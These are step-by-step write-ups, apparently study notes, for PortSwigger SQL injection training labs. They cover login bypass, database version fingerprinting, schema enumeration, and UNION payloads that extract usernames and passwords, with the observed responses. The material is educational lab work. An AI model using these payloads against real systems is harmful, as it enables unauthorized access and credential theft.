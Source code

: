 ###### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
URL: https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data

Endpoint: category

Steps:
```
1. Click on any filter item.
2. Insert the following payload in the url: category=' OR 1=1--
```


###### Lab: SQL injection vulnerability allowing login bypass
URL: https://portswigger.net/web-security/sql-injection/lab-login-bypass

Endpoint: username

Steps:
```
1. Go to login section.
2. Insert the following in the username section: administrator' OR 1=1--
```


###### Lab: SQL injection attack, querying the database type and version on Oracle
URL: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle

Endpoint: category

Steps:
```
1. Click on any filter item.
2. Add ' to verify if sql injection exists.
3. Use the Order Clause to check the number of items that are being returned.
	3a. category=Gifts'+ORDER+BY+1--
	Response: Returns products
	3b. category=Gifts'+ORDER+BY+2--
	Response: Returns products
	3c. category=Gifts'+ORDER+BY+3--
	Response: Internal Server Error
4. Now we know that there are 2 items in the query.
5. Check the type of items in the query using:
5a. category=Gifts'+UNION+SELECT+1,1+FROM+dual--
	Response: error
5b. category=Gifts'+UNION+SELECT+'a',1+FROM+dual--
	Response: error
5c. category=Gifts'+UNION+SELECT+'a','a'+FROM+dual--
	Response: error
6.  category='+UNION+SELECT+banner,'b'+FROM+v$version--
	Response: Database version information
```

Note: We need to specify database name in case of oracle server thus we are using dual.
Ref: https://www.techonthenet.com/oracle/questions/version.php


###### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
URL: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft
Endpoint: category

Steps:
```
1. Click on any filter item.
2. Add ' to verify if sql injection exists.
3. Use the Order Clause to check the number of items that are being returned.
	3a. category=Gifts'+ORDER+BY+1--
	Response: Returns products
	3b. category=Gifts'+ORDER+BY+2--
	Response: Returns products
	3c. category=Gifts'+ORDER+BY+3--
	Response: Internal server error
4. Now we know that there are 2 items in the query.
5. category=Gifts'+UNION+SELECT+@@VERSION,'a'--+
   Response: Database version information
```

Note: Database name is not necessary in when using UNION SELECT on non-oracle MYSQL.
Ref: https://www.sqlshack.com/how-to-find-sql-server-version/


###### Lab: SQL injection attack, listing the database contents on non-Oracle databases
URL: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle
Endpoint: category

Steps:
```
1. Click on any filter item.
2. Add ' to verify if sql injection exists.
3. Use the Order Clause to check the number of items that are being returned.
	3a. category=Gifts'+ORDER+BY+1--
	Response: Returns products
	3b. category=Gifts'+ORDER+BY+2--
	Response: Returns products
	3c. category=Gifts'+ORDER+BY+3--
	Response: Internal server error
4. Now we know that there are 2 items in the query.
5. category='+UNION+SELECT+table_name,'a'+FROM+information_schema.tables--+
   Response: Databases names
6.
category=' UNION SELECT COLUMN_NAME,'a' FROM information_schema.columns WHERE table_name='users_uapnzk'--
Response: All Columns in the database users_eyeiho
7. category=' UNION+SELECT+username_rytsgw,password_ndebvk+FROM+users_uapnzk--
   Response: List of Usernames and passwords
```


Ref: https://dba.stackexchange.com/questions/93919/mysql-list-databases-with-tables
Ref: https://stackoverflow.com/questions/1580450/how-do-i-list-all-the-columns-in-a-table


###### Lab: SQL injection attack, listing the database contents on Oracle
URL: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle
Endpoint: category

Steps:
```
1. Click on any filter item.
2. Add ' to verify if sql injection exists.
3. Use the Order Clause to check the number of items that are being returned.
	3a. category=Gifts'+ORDER+BY+1--
	Response: Returns products
	3b. category=Gifts'+ORDER+BY+2--
	Response: Returns products
	3c. category=Gifts'+ORDER+BY+3--
	Response: Internal server error
4. Now we know that there are 2 items in the query.
5. category=Gifts'+UNION+SELECT+'a','a'+FROM+dual+--+
6. category='+UNION+SELECT+TABLE_NAME,'a'+FROM+ALL_TABLES--
   Response: All the Tables
7.
category='+UNION+SELECT+column_name,'a'+FROM+all_tab_columns+WHERE+table_name='USERS_GOQFTH'--+
Response: All the Columns in the table
8. category='+UNION+SELECT+USERNAME_AGRSKD,PASSWORD_RRZEUC+FROM+USERS_GOQFTH--+
   Response: All the data in the table
```

Ref: https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html#GUID-6823CD28-0681-468E-950B-966C6F71325D



###### Lab: SQL injection UNION attack, determining the number of columns returned by the query
URL: https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns
Endpoint: category

Steps:
```
1. Click on any filter item.
2. Add ' to verify if sql injection exists.
3. Use the Order Clause to check the number of items that are being returned.
	3a. category=Gifts'+ORDER+BY+1--
	Response: Returns products
	3b. category=Gifts'+ORDER+BY+2--
	Response: Returns products
	3c. category=Gifts'+ORDER+BY+3--
	Response: Returns products
	3d. category=Gifts'+ORDER+BY+4--
	Response: Internal server error
Alternative:
4. 
	4a. category=Pets'+UNION+SELECT+NULL--+
		Response: Error
	4b. category=Pets'+UNION+SELECT+NULL,NULL--+
		Response: Error
	4c. category=Pets'+UNION+SELECT+NULL,NULL,NULL--+
		Response: Returns Products
```


###### Lab: SQL injection UNION attack, finding a column containing text
URL: https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text
Endpoint: category

Steps:
```
1. Click on any filter item.
2. Add ' to verify if sql injection exists.
3. Use the Order Clause to check the number of items that are being returned.
	3a. category=Gifts'+ORDER+BY+1--
	Response: Returns products
	3b. category=Gifts'+ORDER+BY+2--
	Response: Returns products
	3c. category=Gifts'+ORDER+BY+3--
	Response: Returns products
	3d. category=Gifts'+ORDER+BY+4--
	Response: Internal server error
Alternative:
4. 
	4a. category=Pets'+UNION+SELECT+NULL--+
		Response: Error
	4b. category=Pets'+UNION+SELECT+NULL,NULL--+
		Response: Error
	4c. category=Pets'+UNION+SELECT+NULL,NULL,NULL--+
		Response: Returns Products
5. Checking the type of each one
	5a. category=Pets'+UNION+SELECT+'a',NULL,NULL--+
		Response: Error
	5b. category=Pets'+UNION+SELECT+NULL,'a',NULL--+
		Response: Response
```


###### Lab: SQL injection UNION attack, retrieving data from other tables
URL: https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables
Endpoint: category

Steps:
```
1. Click on any filter item.
2. Add ' to verify if sql injection exists.
3. Use the Order Clause to check the number of items that are being returned.
	3a. category=Gifts'+ORDER+BY+1--
	Response: Returns products
	3b. category=Gifts'+ORDER+BY+2--
	Response: Returns products
	3c. category=Gifts'+ORDER+BY+3--
	Response: Internal server error
4.  Use UNION Payload
	4a. category=Gifts' UNION SELECT NULL,NULL--
	4b. category=Gifts' UNION SELECT username,password FROM users--
```